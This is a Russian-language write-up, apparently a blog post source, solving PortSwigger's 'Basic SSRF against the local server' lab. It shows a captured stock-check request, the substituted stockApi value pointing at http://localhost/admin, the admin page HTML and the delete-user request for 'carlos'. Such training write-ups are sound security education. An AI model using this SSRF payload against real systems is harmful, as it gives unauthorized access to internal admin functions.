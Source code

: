 ```yaml
---
title: "Basic SSRF against the local server"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/ssrf-apprentice/ssrf/lab-basic-ssrf-against-localhost"
classes: wide
---
```

{% raw %}
Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Нужно получить доступ к интерфейсу админа `http://localhost/admin` и удалить пользователя `carlos`.

```
https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net/
```

## Solution

Следуя из задачи, нам нужно найти место на сайте, где используется обращение по `HTTP` на сервер.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/1.png){: height="200" .align-center}

При нажатии на кнопку `Check stock` отправляется `HTTP`-запрос на внешний ресурс, и результат подставляется на место вызова.

```http
POST /product/stock HTTP/2

Host: 0a0400cb04d88ca581104ddf00b90037.web-security-academy.net
Cookie: session=EqA7ic9vbBVvFyCUEHLcOxMY8ACPeOyI
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D3
```

Заменим `stockApi` на `http://localhost/admin`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/2.png){: height="200" .align-center}

Мы получили страницу админ панели. Теперь нам нужно узнать, с помощью какого запроса происходит удаление пользователя.

```html
</header>
<section>
	<h1>Users</h1>
	<div>
		<span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
	</div>
    <div>
        <span>carlos - </span>
		<a href="/admin/delete?username=carlos">Delete</a>
	</div>
</section>
```
{% endraw %}

Из кода страницы понятно, что для удаления пользователя `carlos` нам нужно отправить следующий `HTTP`-запрос: `http://localhost/admin/delete?username=carlos`. Отправим запрос и проверим результат.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/3.png){: height="200" .align-center}
